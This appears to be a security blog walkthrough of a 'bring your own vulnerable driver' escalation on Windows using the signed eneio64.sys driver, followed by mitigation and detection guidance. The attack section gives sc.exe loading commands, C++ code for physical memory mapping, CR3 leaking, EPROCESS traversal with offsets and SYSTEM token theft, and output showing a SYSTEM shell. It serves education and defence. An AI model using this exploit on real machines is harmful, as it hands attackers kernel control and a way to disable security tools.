




---
### Introduction : 

In modern attack vectors and adversary scenarios, one of the most targeted assets are windows drivers as behind this decision lays a significant reason, exploiting a vulnerable driver is often the easiest way to reach the kernel procedures and that's why many attackers seek the opportunity to deliver an exploitable driver inside infrastructure and achieve instant high privileges. In this article we'll go through the process of locating a vulnerable driver and taking advantage of its insecure design to escalate our access within the target host.

### How does a driver work in windows :

**General elaboration:** Windows drivers are software components—usually kernel-mode (Ring 0), though UMDF drivers can run in user mode—that sit between the OS and hardware. They receive standardized I/O requests from the kernel, translate them into device-specific operations, handle interrupts/DMA, and report completion back to the calling application.



**1. App requests I/O**  
A user-mode app calls Win32 APIs (e.g., `ReadFile`, `DeviceIoControl`). These go through `ntdll.dll` and transition into kernel mode via a system call.

**2. I/O Manager builds an IRP**  
The kernel’s I/O Manager turns the request into an **IRP** (I/O Request Packet) and sends it to the device’s **driver stack** using `IoCallDriver`.

**3. Driver stack processes it**  
A typical stack is **upper filter → function driver → lower filter → bus driver**. The function driver (often using **KMDF/UMDF**) handles the main logic, talks to the bus driver, and programs the hardware through HAL/ACPI, port I/O, MMIO, or DMA.

**4. Hardware responds via interrupt**  
When the device finishes, it raises an interrupt. The driver’s **ISR** runs quickly, schedules a **DPC**, and the DPC completes the IRP with `IoCompleteRequest`.

**5. Result returns to the app**  
The I/O Manager passes status/data back up through the stack, the kernel returns to user mode, and the original API call completes. Drivers run in **kernel mode (Ring 0)**—except UMDF drivers—so bugs can crash the system.

### Use cases of BYOVD technique :

BYOVD is a staple of red team privilege escalation because it allows an operator to turn a low-privileged foothold into **Ring-0 code execution** without writing a kernel exploit from scratch. By loading a legitimately signed but flawed driver—often one already present or easily fetched—the red teamer obtains a kernel read/write primitive that can bypass protections like **Protected Process Light (PPL)** and disable EDR processes outright. This is often the fastest path from local admin to full kernel control during a post-exploitation engagement.

In adversary and ransomware tradecraft, BYOVD has become a reusable commodity for privilege escalation and defense evasion: instead of investing in sophisticated kernel exploitation, actors drop a vulnerable signed driver to gain Ring-0 privileges, terminate security tooling, and then proceed to credential theft or ransomware deployment. The technique is attractive because the driver itself is often blocklist-resistant or can be lightly modified while preserving its signature, making privilege escalation both reliable and scalable across campaigns.

### Real World Demonstration

In this specific scenario, I decided to pick a well-known yet vulnerable driver to use for the privilege escalation process. The driver is **`eneio64.sys`** (ENE Technology). 



Unlike many standard BYOVD candidates that offer basic kernel read/write primitives, `eneio64.sys` is highly prized because it contains an IOCTL (`IOCTL_WINIO_MAPPHYSTOLIN`) that allows an unprivileged user to **map the entire physical memory space** into their own process. By combining this with a few well-known kernel offsets, we can completely bypass KASLR, locate the `SYSTEM` process, and steal its token.

Here is a breakdown of the exploitation process.

#### Step 1: Loading the Driver
Since the driver is legitimately signed (though old), it will load on Windows 10 as long as Driver Signature Enforcement (DSE) permits it. We register it as a kernel service using `sc.exe`:

```cmd
sc.exe create eneio64_2 binPath=C:\path\to\eneio64.sys type=kernel
sc.exe start eneio64_2
```

#### Step 2: Mapping Physical Memory
The exploit begins by opening a handle to the device (`\\.\GLCKIo`) and sending the magic IOCTL. The driver maps physical memory into our process and returns a pointer to us.

```cpp
// Sending the IOCTL to map physical memory
BOOL success = DeviceIoControl(
    drv, IOCTL_WINIO_MAPPHYSTOLIN,
    inbuf, sizeof(INPUTBUF),
    inbuf, sizeof(INPUTBUF),
    &bytes_returned, NULL
);
BYTE* memory_data = (BYTE*)inbuf->MappingAddress; // We now have full R/W to physical RAM
```

#### Step 3: Leaking CR3 (KASLR Bypass)
We now have physical memory, but we need to translate virtual addresses (like kernel structures) to physical ones. To do this, we need the **CR3 register** (Directory Table Base). 

The exploit scans the first 1MB of physical memory for `nt!HalpLMStub`. This structure is a leftover from the boot process and contains the `CR3` value at offset `+0x30`.

```cpp
ULONG32 cr3 = 0;
for (size_t i = 0; i < sizeof(ULONG32); ++i) {
    cr3 |= (ULONG32)(memory_data[physical_offset + 0x30 + i]) << (i * 8);
}
// We now have the CR3 to translate Virtual to Physical
```

#### Step 4: Finding Our Own Process
Because we cannot easily use APIs to get kernel addresses, we create a suspended thread and use `NtQuerySystemInformation` to leak the virtual address of our thread's `_KTHREAD` object. 

Using the `CR3`, we translate that virtual address to physical, read the `_KTHREAD`, and follow the `Process` pointer (offset `0x220` on Win10 22H2) to find our own `_EPROCESS`.

```cpp
// Reading the _EPROCESS pointer from our leaked _KTHREAD
UINT64 kprocessPointerPhysical = kThreadPhysical + KTHREAD_PROCESS_OFFSET;
UINT64 currentProcAddr = 0;
// Read physical memory to get the Virtual Address of our EPROCESS
for (size_t i = 0; i < sizeof(UINT64); ++i) {
    currentProcAddr |= (UINT64)(memory_data[kprocessPointerPhysical + i]) << (i * 8);
}
```

#### Step 5: The Linked-List Traversal (Finding SYSTEM)
Instead of unreliable pool tag scanning, we use the `_EPROCESS->ActiveProcessLinks` doubly-linked list. Every process is connected. We read the `Flink` pointer (offset `0x448`), subtract the offset to get the next `_EPROCESS`, and check its PID (offset `0x440`). We loop this until we find PID `4`.

```cpp
while (attempts < 1000) {
    // Read Flink pointer
    UINT64 flinkPhys = VirtualToPhysical(cr3, target + EPROCESS_LINKS_OFFSET, memory_data);
    UINT64 flink = ReadUint64FromPhysical(flinkPhys);
    
    // Calculate next EPROCESS
    UINT64 nextEprocess = flink - EPROCESS_LINKS_OFFSET;
    
    // Read PID
    UINT64 pid = ReadUint64FromPhysical(VirtualToPhysical(cr3, nextEprocess + EPROCESS_PID_OFFSET, memory_data));
    
    if (pid == 4) return nextEprocess; // SYSTEM found!
    target = nextEprocess;
}
```

#### Step 6: Token Stealing
Once we have the `SYSTEM` `_EPROCESS` address, we read its `Token` (offset `0x4B8`). We must mask the lower 4 bits (the reference count) using `& 0xFFFFFFFFFFFFFFF0`. Then, we simply overwrite our own process's token with the SYSTEM token in physical memory.

```cpp
// Read SYSTEM token and mask the ref count
UINT64 systemToken = ReadUint64FromPhysical(systemTokenPhysAddr);
systemToken = (systemToken & 0xFFFFFFFFFFFFFFF0);

// Overwrite our current process token
UINT64 currentProcTokenPhysical = (currentProcPhysical + EPROCESS_TOKEN_OFFSET);
for (int i = 0; i < sizeof(UINT64); ++i) {
    memory_data[currentProcTokenPhysical + i] = (BYTE)((systemToken >> (i * 8)) & 0xFF);
}
```

#### Step 7: Cleanup and Execution
Finally, we unmap the physical memory (to prevent a Blue Screen of Death upon exit) and spawn a command shell. 

```cpp
// Unmap physical memory first!
DeviceIoControl(drv, IOCTL_WINIO_UNMAPPHYSADDR, ...);
system("cmd.exe /k whoami");
```



**Result:**
```cmd
C:\Users\dummy\Desktop\eneio64_Exploit\x64\Debug>eneio64_Exploit.exe
[*] Successfully opened device handle
[*] Leaked CR3 -> 1ad000
[*] Current Process EPROCESS at 0xffffd5095e1a4080
[*] Starting EPROCESS linked-list traversal...
[*] Traversing: EPROCESS 0xffffd5095e1a4080, PID: 1234
[*] Traversing: EPROCESS 0xffffd5095e1a5080, PID: 4
[+] Found System Process (PID 4) EPROCESS at: 0xffffd5095e1a5080
[*] Found System Token : 0xffffa5095e1a5080
[*] Token successfully overwritten! Spawning SYSTEM shell...

C:\Users\dummy\Desktop\eneio64_Exploit\x64\Debug>whoami
nt authority\system
```



---
### Mitigation & Detection

The `eneio64.sys` case highlights a critical gap in the “block known bad” security model. Because the driver is legitimately signed and has historically been tolerated by HVCI, traditional blocklists are insufficient on their own. Defenders must adopt a layered approach that shifts from reactive blocking to proactive allowlisting.

#### Prevention: Shifting to Allowlisting

- **WDAC (Windows Defender Application Control):** The most effective structural countermeasure is WDAC (now App Control for Business). Instead of trying to enumerate every vulnerable driver, WDAC enforces a **deny-by-default** policy: only explicitly approved drivers can load. This closes the gap that blocklists cannot, as an unrecognized driver like `eneio64.sys` will fail to load by default .[](https://expel.com/blog/the-feature-that-stops-byovd-bring-your-own-vulnerable-driver/#1)
    
- **HVCI (Hypervisor-Protected Code Integrity):** HVCI uses virtualization to run code integrity checks in an isolated environment. This prevents a loaded vulnerable driver from tampering with the very security checks that enforce WDAC policies, ensuring the allowlist cannot be bypassed from the kernel .[](https://expel.com/blog/the-feature-that-stops-byovd-bring-your-own-vulnerable-driver/#1)
    
- **Vulnerable Driver Blocklist:** While not a complete solution, keeping the Microsoft Vulnerable Driver Blocklist enabled is a necessary baseline. It is enabled by default when HVCI or Smart App Control is active, and it catches drivers that Microsoft has already classified as vulnerable .[](https://www.ninjaone.com/blog/enable-or-disable-microsoft-vulnerable-driver-blocklist/#1)
    

#### Detection: Hunting for the BYOVD Signature

Every BYOVD attack must load a driver, and Windows provides several high-fidelity signals for this event.

|Signal|Where to Look|Why It Matters|
|---|---|---|
|**Driver Service Installed from Unusual Path**|**System Event 7045** (Service Control Manager) or **Sysmon Event 6**|Attackers often drop the driver in a user-writable path (`Temp`, `ProgramData`) and register it as a kernel service via `sc.exe`. Legitimate drivers typically reside in `System32\drivers`[](https://intel.mjolnirsecurity.com/detect-byo-encryptor)|
|**Driver Load with Known-Vulnerable Hash**|**Sysmon Event 6** (DriverLoad)|Correlate the `SHA256` hash of the loaded driver against the **LOLDrivers** dataset. This detects known abused drivers like `eneio64.sys` immediately[](https://intel.mjolnirsecurity.com/detect-byovd)|
|**Security Process Terminated Post-Load**|**EDR Tamper Telemetry**, **Sysmon Event 5** (Process Terminated)|The ultimate goal of BYOVD is often to kill security products. A security process exiting shortly after a new driver load is a classic signature of an EDR killer[](https://intel.mjolnirsecurity.com/detect-byovd)|
|**Driver Blocked by Policy**|**CodeIntegrity Event 3076/3077**|If WDAC or HVCI blocks a driver, these events provide an audit trail. Event `3076` means a driver would have been blocked (audit mode), and `3077` means it was blocked (enforcement)[](https://intel.mjolnirsecurity.com/detect-byovd)|

A pragmatic detection strategy is to correlate these signals: **alert when a kernel driver is loaded from an unusual path, and a security agent process terminates within the next 15 minutes on the same host** .[](https://intel.mjolnirsecurity.com/detect-byo-encryptor)

---

### Conclusion

This walkthrough demonstrated that BYOVD is not a theoretical threat but a practical and reliable privilege escalation technique. By abusing the `eneio64.sys` driver’s IOCTL to map physical memory, we bypassed modern defenses, leaked `CR3` to defeat KASLR, and walked the `ActiveProcessLinks` list to steal the `SYSTEM` token—achieving `NT AUTHORITY\SYSTEM` without ever exploiting a memory corruption vulnerability in the kernel itself.

The key takeaway is that **a cryptographic signature is not a security validation**. The `eneio64.sys` driver is legitimately signed, yet its functionality is inherently dangerous. Traditional blocklists are a losing game of Whac-A-Mole because attackers only need one signed driver that isn’t on the list .[](https://expel.com/blog/the-feature-that-stops-byovd-bring-your-own-vulnerable-driver/#1)

The only durable defense is to **invert the security model**. WDAC, backed by HVCI, ensures that only explicitly trusted drivers can load, making it irrelevant whether a new vulnerable driver is discovered tomorrow or next year. While detection engineering is valuable for catching active intrusions, the structural fix is to prevent the vulnerable driver from ever reaching the kernel.

---

### References

- **Xacone**, _"Exploiting eneio64.sys Kernel Driver on Windows 11 by Turning Physical Memory R/W into Virtual Memory R/W"_ — [https://xacone.github.io/eneio64.html](https://xacone.github.io/eneio64.html)
    
- **Xacone**, _"Eneio64-Driver-Exploits"_ (GitHub Repository) — [https://github.com/Xacone/Eneio64-Driver-Exploits](https://github.com/Xacone/Eneio64-Driver-Exploits)
    
- **LOLDrivers Project**, _"eneio64.sys"_ (Vulnerable Driver Entry) — [https://www.loldrivers.io/drivers/66066d9852bc65988fb4777f0ff3fbb4/](https://www.loldrivers.io/drivers/66066d9852bc65988fb4777f0ff3fbb4/)
    
- **MITRE ATT&CK**, _"Detection Strategy for Exploitation for Privilege Escalation (DET0514)"_ — [https://attack.mitre.org/detectionstrategies/DET0514/](https://attack.mitre.org/detectionstrategies/DET0514/)
    
- **Expel**, _"The feature that stops BYOVD (bring your own vulnerable driver)"_ — [https://expel.com/blog/the-feature-that-stops-byovd-bring-your-own-vulnerable-driver/](https://expel.com/blog/the-feature-that-stops-byovd-bring-your-own-vulnerable-driver/)
    
- **Mjolnir Security**, _"Detecting BYOVD: Vulnerable Driver Loading and EDR Killers"_ — [https://mjolnirsecurity.com/blog/detecting-byovd-vulnerable-driver-loading-and-edr-killers/](https://mjolnirsecurity.com/blog/detecting-byovd-vulnerable-driver-loading-and-edr-killers/)
    
- **Mjolnir Security**, _"Detecting Bring-Your-Own-Encryptor and Vulnerable Driver Kills"_ — [https://mjolnirsecurity.com/blog/detecting-bring-your-own-encryptor-and-vulnerable-driver-kills/](https://mjolnirsecurity.com/blog/detecting-bring-your-own-encryptor-and-vulnerable-driver-kills/)
    
- **NinjaOne**, _"How to Enable or Disable the Microsoft Vulnerable Driver Blocklist in Windows 11"_ — [https://www.ninjaone.com/blog/how-to-enable-or-disable-the-microsoft-vulnerable-driver-blocklist-in-windows-11/](https://www.ninjaone.com/blog/how-to-enable-or-disable-the-microsoft-vulnerable-driver-blocklist-in-windows-11/)